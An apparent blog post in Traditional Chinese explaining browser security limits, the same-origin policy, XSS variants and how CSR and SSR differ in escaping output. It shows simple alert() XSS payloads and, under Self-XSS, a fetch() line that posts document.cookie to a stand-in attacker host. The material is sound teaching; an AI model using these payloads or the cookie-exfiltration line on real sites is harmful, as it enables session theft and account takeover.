 ```yaml
---
title: 前端資安宇宙（一）- 瀏覽器與XSS
date: '2025-06-15'
tags: ['資安', 'XSS', '前端']
draft: false
summary: '本文介紹瀏覽器的安全限制、XSS 的攻擊類型與實際範例，並整理 CSR/SSR 在防範 XSS 上的差異與常見誤區。'
---
```


## 前言

身為一個網頁軟體工程師，資安這塊是非常用重要的，雖然現在大多都在做內部系統，但是面試還是會常常問到，所以我乾脆與我們公司前端一起辦了場資安讀書會。
本文章會參考胡立大大寫的 [Beyond XSS：探索網頁前端資安宇宙](https://www.tenlong.com.tw/products/9786267383803)。

## 瀏覽器不能做的事？

1. **禁止呼叫本機檔案**

2. **禁止呼叫系統 API**
   - 存取本地 registry
   - 讀寫磁碟任意路徑
   - 自動安裝軟體（需確認）
   - 開啟攝像頭或音訊設備 [需確認](https://support.google.com/chrome/answer/2693767?hl=zh-HK&co=GENIE.Platform%3DAndroid)

3. **禁止取得其他網站的內容**
   - 如果你在 Yahoo 網頁中嘗試這樣寫：

     ```js
     fetch('https://google.com')
       .then((res) => res.json())
       .then((data) => console.log(data))
       .catch((err) => console.error('被阻擋！', err))
     ```

     預期會出現錯誤：

     ```
     Access to fetch at 'https://google.com/' from origin 'https://tw.yahoo.com'
     has been blocked by CORS policy:
     No 'Access-Control-Allow-Origin' header is present on the requested resource.

     GET https://google.com/ net::ERR_FAILED 301 (Moved Permanently)

     TypeError: Failed to fetch

     被阻擋！ TypeError: Failed to fetch
     ```

   - **無法跨站取得 cookie**
     - 同源政策限制 `document.cookie` 只能讀取「自己的網站」設定的 cookie。
     - 若 cookie 有 `HttpOnly` 屬性，JavaScript 永遠無法取得。（可避免 XSS 攻擊）

---

# 什麼是 XSS？

XSS（Cross-Site Scripting，跨站腳本攻擊）是一種前端常見的資安攻擊手法。  
簡單來說，就是**攻擊者在其他人的網站上注入惡意的 JavaScript 程式碼，並讓其他使用者在不知情的情況下執行它**。

---

## 常見的 XSS 攻擊範例

1. 在輸入框中輸入以下內容，若未適當處理就會執行：
   ```html
   <script>
     alert('XSS!')
   </script>
   ```
2. 偽協議，惡意連結：
   ```html
   <a href="javascript:alert('Hacked!')">點我</a>
   ```
3. 偽裝圖片：

```html
<img src="x" onerror="alert('XSS!')" />
```

---

## CSR vs SSR 在 XSS 防範上的差異

### CSR（Client-Side Rendering，前端渲染）

- **預設具備基本防護**
  - 如 React、Vue 等框架在輸出變數時，會自動將 HTML 特殊符號做轉義（escape）。
  - 例如使用者輸入 `<script>alert(1)</script>`，畫面會呈現為純文字：
    ```html
    &lt;script&gt;alert(1)&lt;/script&gt;
    ```
    而非直接執行。

- **風險來源**
  - 若開發者使用以下方式將內容「直接插入 HTML」，會導致 XSS 風險：
    - React: `dangerouslySetInnerHTML`
    - Vue: `v-html` [連結](https://cn.vuejs.org/api/built-in-directives#v-html`)
    - 原生 JavaScript: `element.innerHTML`

- **只要不使用危險 API，CSR 預設就有不錯的 XSS 防護能力**

---

### SSR（Server-Side Rendering，伺服器渲染）

- **需要開發者自行轉義輸出內容**
  - 若從後端回傳 HTML 字串時，未將使用者輸入進行轉義，會造成 XSS 漏洞。

- **常見問題**
  - 使用樣板引擎時誤用未轉義語法：
    - EJS: `<%- userInput %>`

## 其他類型的 XSS

### Self-XSS（自我 XSS）

Self-XSS 是一種社交工程攻擊，攻擊者會誘導使用者**自己在開發者工具（Console）中貼上並執行惡意程式碼**。  
雖然程式碼是由使用者自己執行的，但實際上資料仍會被竊取或帳號遭入侵。

---

#### 常見誘導語句：

> 「你贏得了禮物！請打開開發者工具（F12），將以下程式碼貼上後就能獲得！」

```js
fetch('https://evil.com/steal-cookie', {
  method: 'POST',
  body: document.cookie,
})
```

### Blind XSS（盲目型 XSS）

Blind XSS 是一種更隱蔽的 XSS 攻擊。  
攻擊者將惡意腳本注入到系統中，但**不是立即在瀏覽者端觸發**，而是等到某個「後台管理者」或「內部人員」在**不同頁面或系統中查看資料時**才會觸發。

### 偽協議 XSS（JavaScript 協議攻擊）

偽協議攻擊是指攻擊者在超連結（`<a>` 標籤）中，使用 `javascript:` 協議來執行惡意腳本。  
這種方式常見於釣魚連結、留言注入等 XSS 攻擊中。

---

#### 攻擊範例：

```html
<a href="javascript:alert('Hacked!')">點我領取獎勵！</a>
```

如何解決？

```
使用sanitize-url套件
```
